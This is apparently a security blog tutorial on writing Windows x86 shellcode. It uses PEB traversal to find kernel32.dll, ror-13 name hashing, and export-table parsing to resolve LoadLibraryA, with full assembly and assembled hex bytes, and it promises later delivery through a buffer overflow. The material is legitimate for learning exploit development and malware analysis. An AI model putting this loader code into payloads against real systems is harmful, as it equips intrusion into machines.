


BloG
Windows x86 Shellcode : Loading DLL’s and Finding Functions
December 23, 2019
In Aleph One's famous paper "Smashing the Stack for Fun and Profit", they explain the basics of using a stack overflow vulnerability to gain control of process execution. In their example, they point the hijacked instruction pointer to a small shellcode payload that spawns a shell on a Unix system. While shellcode often simply spawns a local shell on the target system, the word shellcode refers to any self-contained piece of code suitable to be a payload in an exploit.
This post explores writing x86 shellcode for Windows systems. I will assume some knowledge of x86 assembly and Windows system internals. I have primarily used Smashing the Stack for Fun and Profit, and Practical Malware Analysis as references.
Loading a DLL:
For shellcode to do something interesting on a Windows machine, it usually needs to load a DLL and find a procedure within that DLL. If we were writing a program in C, the compiled assembly code would simply use LoadLibraryA and GetProcAddressA to load a DLL and find the procedure we need; however, our shellcode can’t call LoadLibraryA without finding its address first.
Finding kernel32.dll:
LoadLibraryA is a procedure in kernel32.dll; thus, we first need to find where kernel32 has been loaded into process memory. We find the base address of kernel32 by traversing some undocumented Windows structures, namely the Thread Environment Block (TEB), the Process Environment Block (PEB), and the PEB Loader (PEB_LDR_DATA). We retrieve the address of the TEB from the FS segment register. A pointer to the PEB is at offset 0x30 in the TEB, and a pointer to the PEB_LDR_DATA is at offset 0x0C of the PEB. The PEB_LDR_DATA contains the head of a linked list of DLL’s loaded into process memory at offset 0x1C. A fantastic illustration of these structures (which I cannot include due to copyright) is on page 414 of Practical Malware Analysis.
We then traverse the linked list of LDR_DATA_TABLE_ENTRYs, checking the DLLName, which is a string kept at offset 0x18 from our linked list pointer. When we find kernel32.dll, we will return the BaseAddress, which can be found at offset 0x08 from our linked list pointer. Let’s look at the code I’ve written to do this.
find_kernel32_base:
push esi
xor eax, eax
mov eax, [fs:eax+0x30] #eax holds pointer to PEB
mov eax, [eax + 0x0c] #eax holds pointer to PEB_LDR_DATA
mov esi, [eax + 0x1c] #esi holds pointer to LDR_Module link (DLL Data)
.test:
mov eax, [esi + 0x18] #eax holds DLL Name string
push 1 #indicates to function that string is unicode
push eax
call hash_string #we'll talk about this soon
cmp eax, F3C0296F #compare return of hash_string to the hash of kernel32.dll
jz next
mov esi, [esi] #move to the next link in the list
jmp test
.next:
mov eax, [esi+8] #kernel32 has been found. eax now holds the base address
pop esi
retnNote: other references suggest that the DLL name can be found at offset 0x14 from the list pointer in the LDR_DATA_TABLE_ENTRY. I found it at 0x18 and am not sure what has produced this discrepency.
You’ll notice that in the above code, rather than doing a string comparison between LDR_DATA_TABLE_ENTRY’s DLLName and “C:\Windows\SysWOW64\kernel32.dll”, we hash the DLLName and then compare the hash to a precalculated hash of the kernel32 filepath. We do this so we don’t need to include the entire string in our shellcode, which helps us reduce the size of our payload and make analysis more difficult. We’ll reuse this code for the lightweight version of GetProcAddressA as well, so the extra instructions are justified.
We use the ror-13-additive hash, which is very common for shellcode, but any hashing function without meaningful collisions is fine. Here is my code for hash_string:
hash_string(char *str, int strType);
hash_string:
push esi
push edi
push ebx
mov esi, [esp+10] #pointer to first char in string
mov ebx, [esp+14] #1 if unicode, 0 if ascii
xor edi, edi
cld #ensure lods runs in the correct direction
.loop:
xor eax, eax
lodsb
add esi, ebx #skips the 00 byte if unicode, does nothing if ascii
cmp al, ah
je .done #al has char - if it's equal to 00 then end of string
ror edi, 0x0d #rotate right 13
add edi, eax
jmp .loop
.done:
mov eax, edi
pop ebx
pop edi
pop esi
retn 8Now, you may wonder how we calculated F3C0296F to be the hash of “C:\Windows\SysWOW64\kernel32.dll”. We could have written a separate program, we could have used a tool like Cyberchef, but what I did was put the assembly we have so far into an assembly debugger (I personally prefer OllyDbg). I then set the origin to the top of our shellcode and single stepped through the instructions. First we hash ntdll, then KERNELBASE, and then finally kernel32. Windows versions prior to Windows7 load kernel32 second, while newer versions load it third – this hashing business is all in the interest of making our shellcode more portable.
We now have the assembly code to find the address of kernel32.dll. The next step is to retrieve the address of LoadLibraryA. First, let’s look at the machine code we have so far.
56 31 C0 64 8B 40 30 8B 40 0C 8B 70 1C 8B 46 18
6A 01 50 E8 10 00 00 00 3D 6F 29 C0 F3 74 04 8B
36 EB EA 8B 46 08 5E C3 56 57 53 8B 74 E4 10 8B
5C E4 14 31 FF FC 31 C0 AC 01 DE 38 E0 74 07 C1
CF 0D 01 C7 EB F0 89 F8 5B 5F 5E C2 08 00
Not bad!
Finding LoadLibraryA:
We want to find LoadLibraryA in kernel32.dll, but once we find it, we’ll want to load other libraries and find other procedures in those libraries as well. Thus, for the sake of space and laziness, we’ll write a single function that takes two parameters: the base address of a DLL, and the hash of the procedure name.
The general idea is that we iterate through an array called AddressOfNames, hashing each name (I told you it would come in handy) until we find a match. We then save the index at which we found our match, and jump to that index in another array called AddressOfNamesOrdinals. The value retrieved from this array is the ordinal of the function we’re looking for. Finally, we use the ordinal to index into the AddressOfFunctions array to find the offset from the base address of the DLL to the function. All of these arrays are found in the IMAGE_EXPORT_DIRECTORY. Rather than tell you about all of the offsets, I’ll just show you the code to parse the PE file.
find_function_by_hash(dllBase, hash);
find_function_by_hash:
pushad
mov ebp, [esp + 0x24] #dll Base address -> ebp
mov eax, [ebp + 0x3c] #offset to PE signature -> eax
mov edx, [ebp + eax + 0x78] #relative address of IMAGE_EXPORT_DIRECTORY -> edx
add edx, ebp #add dll Base address to get the absolute address
mov ecx, [edx + 0x18] #number of functions to iterate through
mov ebx, [edx + 0x20] #relative address of AddressOfNames -> ebx
add ebx, ebp #add dll Base to get absolute address
.loop:
jecxz .error #didn't find function matching hash
dec ecx
mov esi, [ebx+ecx*4] #esi holds the relative address of the function name
add esi, ebp #convert to absolute address
push 0 #name is ascii
push esi #push function name
call hash_string
cmp eax, [esp+0x28] #compare return val with hash val specified by parameter
jnz .loop
mov ebx, [edx+0x24] #relative address of AddressOfNamesOrdinals
add ebx, ebp
mov cx, [ebx+ecx*2] #each entry in the ordinal table is 2 bytes
mov ebx, [edx + 0x1c] #relative address of AddressOfFunctions
add ebx, ebp
mov eax, [ebx+ecx*4]
add eax, ebp #eax holds the absolute address of the function we're looking for
jmp .done
.error:
xor eax, eax
.done:
mov [esp+0x1c], eax #so that eax will remain through popad
popad
retn 8We now have everything we need to find the address of LoadLibraryA. We’ll find the kernel32 base and find LoadLibraryA by its hash. We’ve already done the heavy lifting with our other functions, so it’s just a small amount of code.
get_LoadLibraryA:
call find_kernel32_base
push EC0E4E8E #hash for LoadLibraryA
push eax
call find_function_by_hash
retnVoila! We can load DLL’s now, and find functions within those DLL’s using our find_function_by_hash function. This is the assembly all together:
get_LoadLibraryA:
call find_kernel32_base
push EC0E4E8E
push eax
call find_function_by_hash
retn
findFunctionByHash:
pushad
mov ebp, [esp + 0x24] #dll Base address -> ebp
mov eax, [ebp + 0x3c] #offset to PE signature -> eax
mov edx, [ebp + eax + 0x78] #relative address of IMAGE_EXPORT_DIRECTORY -> edx
add edx, ebp #add dll Base address to get the absolute address
mov ecx, [edx + 0x18] #number of functions to iterate through
mov ebx, [edx + 0x20] #relative address of AddressOfNames -> ebx
add ebx, ebp #add dll Base to get absolute address
.loop:
jecxz .error #didn't find function matching hash
dec ecx
mov esi, [ebx+ecx*4] #esi holds the relative address of the function name
add esi, ebp #convert to absolute address
push 0 #name is ascii
push esi #push function name
call hash_string
cmp eax, [esp+0x28] #compare return val with hash val specified by parameter
jnz .loop
mov ebx, [edx+0x24] #relative address of AddressOfNamesOrdinals
add ebx, ebp
mov cx, [ebx+ecx*2] #each entry in the ordinal table is 2 bytes
mov ebx, [edx + 0x1c] #relative address of AddressOfFunctions
add ebx, ebp
mov eax, [ebx+ecx*4]
add eax, ebp #eax holds the absolute address of the function we're looking for
jmp .done
.error:
xor eax, eax
.done:
mov [esp+0x1c], eax #so that eax will remain through popad
popad
retn 8
find_kernel32_base:
push esi
xor eax, eax
mov eax, [fs:eax+0x30] #eax holds pointer to PEB
mov eax, [eax + 0x0c] #eax holds pointer to PEB_LDR_DATA
mov esi, [eax + 0x1c] #esi holds pointer to LDR_Module link (DLL Data)
.test:
mov eax, [esi + 0x18] #eax holds DLL Name string
push 1 #indicates to function that string is unicode
push eax
call hash_string #we'll talk about this soon
cmp eax, F3C0296F #compare return of hash_string to the hash of kernel32.dll
jz next
mov esi, [esi] #move to the next link in the list
jmp test
.next:
mov eax, [esi+8] #kernel32 has been found. eax now holds the base address
pop esi
retn
hash_string:
push esi
push edi
push ebx
mov esi, [esp+10] #pointer to first char in string
mov ebx, [esp+14] #1 if unicode, 0 if ascii
xor edi, edi
cld #ensure lods runs in the correct direction
.loop:
xor eax, eax
lodsb
add esi, ebx #skips the 00 byte if unicode, does nothing if ascii
cmp al, ah
je .done #al has char - if it's equal to 00 then end of string
ror edi, 0x0d #rotate right 13
add edi, eax
jmp .loop
.done:
mov eax, edi
pop ebx
pop edi
pop esi
retn 8And with everything assembled, the shellcode looks like this.
E8 57 00 00 00 68 8E 4E 0E EC 50 E8 01 00 00 00
C3 60 8B 6C E4 24 8B 45 3C 8B 54 28 78 01 EA 8B
4A 18 8B 5A 20 01 EB E3 29 49 8B 34 8B 01 EE 6A
00 56 E8 4D 00 00 00 3B 44 E4 28 75 EA 8B 5A 24
01 EB 66 8B 0C 4B 8B 5A 1C 01 EB 8B 04 8B 01 E8
EB 02 31 C0 89 44 E4 1C 61 C2 08 00 56 31 C0 64
8B 40 30 8B 40 0C 8B 70 1C 8B 46 18 6A 01 50 E8
10 00 00 00 3D 6F 29 C0 F3 74 04 8B 36 EB EA 8B
46 08 5E C3 56 57 53 8B 74 E4 10 8B 5C E4 14 31
FF FC 31 C0 AC 01 DE 38 E0 74 07 C1 CF 0D 01 C7
EB F0 89 F8 5B 5F 5E C2 08 00In the next post, I’ll write a hello world example using the assembly we’ve written here, and launch the shellcode using a basic buffer overflow.